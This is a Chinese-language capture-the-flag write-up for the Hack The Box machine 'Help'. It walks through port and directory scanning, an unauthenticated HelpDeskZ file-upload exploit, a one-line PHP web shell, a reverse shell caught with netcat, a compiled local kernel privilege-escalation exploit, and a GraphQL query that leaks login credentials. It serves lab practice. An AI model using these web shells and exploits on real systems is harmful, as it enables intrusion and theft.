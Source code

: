 # Help (HTB 靶机测试)
## 0x00
前期准备 进入到[HTB acces页面](https://www.hackthebox.eu/home/htb/access)配置vpn 

下载对应的配置 openvpn xx.ovpn 文件 

配置好对应网络 

从页面上就可以看到是否连接成功/ipv4地址/ipv6地址/流量/服务器地址/服务器端口 

然后进入[靶机场](https://www.hackthebox.eu/home/machines/list) 挑选合适的靶机进行练手

## 0x01
+ [靶机地址](https://www.hackthebox.eu/home/machines/profile/170)
+ 目标ip 10.10.10.121
+ 本机ip 10.10.14.37
+ 本机增加靶机路由 
+ 使用nmap 扫描一下端口

``````
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-15 06:36 GMT
Nmap scan report for 10.10.10.121
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 4.16 seconds
``````

有80看看80有啥信息么 没有啥信息 标准的apache2页面


+ dirb http://10.10.10.121/ /usr/share/dirb/wordlists/small.txt 看看有啥发现 遍历web页面目录
  真有发现 找到了  http://10.10.10.121/support 有东西 找到一个貌似订票网站 http://10.10.10.121/support  里面要用户名和密码登录 貌似是开源[HelpDeskz]搭建(http://www.helpdeskz.com/)

``````
  dirb http://10.10.10.121/ /usr/share/dirb/wordlists/small.txt
  -----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed May 15 06:39:04 2019
URL_BASE: http://10.10.10.121/
WORDLIST_FILES: /usr/share/dirb/wordlists/small.txt

-----------------

GENERATED WORDS: 959

---- Scanning URL: http://10.10.10.121/ ----
==> DIRECTORY: http://10.10.10.121/javascript/
==> DIRECTORY: http://10.10.10.121/support/

---- Entering directory: http://10.10.10.121/javascript/ ----

---- Entering directory: http://10.10.10.121/support/ ----
==> DIRECTORY: http://10.10.10.121/support/css/
==> DIRECTORY: http://10.10.10.121/support/images/
==> DIRECTORY: http://10.10.10.121/support/includes/
==> DIRECTORY: http://10.10.10.121/support/js/
==> DIRECTORY: http://10.10.10.121/support/uploads/
==> DIRECTORY: http://10.10.10.121/support/views/

---- Entering directory: http://10.10.10.121/support/css/ ----

---- Entering directory: http://10.10.10.121/support/images/ ----

---- Entering directory: http://10.10.10.121/support/includes/ ----
==> DIRECTORY: http://10.10.10.121/support/includes/classes/

---- Entering directory: http://10.10.10.121/support/js/ ----

---- Entering directory: http://10.10.10.121/support/uploads/ ----

---- Entering directory: http://10.10.10.121/support/views/ ----
==> DIRECTORY: http://10.10.10.121/support/views/client/
==> DIRECTORY: http://10.10.10.121/support/views/staff/

---- Entering directory: http://10.10.10.121/support/includes/classes/ ----

---- Entering directory: http://10.10.10.121/support/views/client/ ----

---- Entering directory: http://10.10.10.121/support/views/staff/ ----

-----------------
END_TIME: Wed May 15 07:30:54 2019
DOWNLOADED: 11508 - FOUND: 0 
``````

## 0x02

+ 在[订票页面](http://10.10.10.121/support?v=submit_ticket&actiion=displayForm)貌似可以上传附件

  在searchsploit看看有没有啥发现 果然有任意文件上传 看poc貌似是源代码上传附件没有做检查，

  只是利用时间计算重新md5更改名字，并且找到[HelpDeskZ源代码文件](https://github.com/evolutionscript/HelpDeskZ-1.0/archive/master.zip)
  
``````
  searchsploit HelpDeskZ ---exclude='(PoC)|/dos/'
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                                  | exploits/php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Do | exploits/php/webapps/41200.py
------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
``````
   
## 0x03
 + 准备好php文件,先试一个小的文件 试一下poc是否好用
`````
  cat test.php
  <?php echo(system($_GET["cmd"])); ?>
`````
 + exploits/php/webapps/40300.py 下的需要更改一下少了几个冒号 增加一些打印信息 打印一下获取服务器时区 好能比较时间戳 将本机时区改成GMT
 + 看看源代码找到存放附件的路径 http://10.10.10.121/support/uploads/tickets/
 + 网页上传附件 图片验证成功 网页会有File is not_allowed 提示
 + 运行脚本python 40300.py http://10.10.10.121/support/uploads/tickets/ test.php
   查出上传附件目录名称
   http://10.10.10.121/support/uploads/tickets/a832970fedd21fb756a2bfbb18544869.php

``````
python 40300.py http://10.10.10.121/support/uploads/tickets/ test.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
Wed, 15 May 2019 07:24:21 GMT
http://10.10.10.121/support/uploads/tickets/
test.php
1557905053
This is the 0 time:
has tried http://10.10.10.121/support/uploads/tickets/abb3155110dcac0bd0df07c4506923a7.php:404
This is the 1 time:
has tried http://10.10.10.121/support/uploads/tickets/a1d5c3e401494104b8b92cc6e10d59f1.php:404
This is the 2 time:
has tried http://10.10.10.121/support/uploads/tickets/c30228a151cfe8f8756b828eb82243ad.php:404
This is the 3 time:
has tried http://10.10.10.121/support/uploads/tickets/6e455800983a553f7c2afb10f622f9f7.php:404
This is the 4 time:
found!
http://10.10.10.121/support/uploads/tickets/a832970fedd21fb756a2bfbb18544869.php
`````
  + 执行一下命令看看是否好用 发现账号是help

`````
curl http://10.10.10.121/support/uploads/tickets/a832970fedd21fb756a2bfbb18544869.php?cmd=id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
`````
  + 同样的步骤挂马 上传[反弹shellphp](https://github.com/pentestmonkey/php-reverse-shell)
  + 登录到靶机的help用户下 找到user.txt 
``````
curl http://10.10.10.121/support/uploads/tickets/a832970fedd21fb756a2bfbb18544869.php?cmd=cat+/home/help/user.txt
bb8a7b36bdce0c61ccebaa173ef946af
``````

## 0x04
+ 获取root权限 利用4.4.0-116-generic下exploits/linux/local/44298.c获取root权限

``````
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.121: inverse host lookup failed: Unknown host
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.121] 57236
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 00:48:39 up 57 min,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
help@help:/$
``````

+ 利用nc上传文件44298.c gcc编译payload获取root 权限以及flag b7fe6082dcdf0c1b1e02ab0d9daddb9
``````
  nc -w 3 10.10.10.121 39808 < payload.c
  nc -l -p 39808 > payload.c
  gcc -g payload.c -o payload && ./payload 
````` 

## 0x05
+ 3000端口 nodejs

  页面访问 http://10.10.10.121:3000/graphql?query={user{username%20password}}
  
  得到http://10.10.10.121/support 下的登录帐号和密码 helpme@helpme.com/5d3c93182bb20f07b994a7f617e99cff

  cat /home/help/help/src/graphql/schema/resolvers/index.js下面也能得到页面信息

  通过[hash cracker](https://crackstation.net/)页面获得到密码 godhelpmeplz

  通过页面登录上去 好像也没有啥鸟用 其实是利用HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection

  第二个漏洞来进行sql注入获得权限


## 0x06

+ [Help -- hack the box](https://madneal.com/post/help-hack-the-box/)

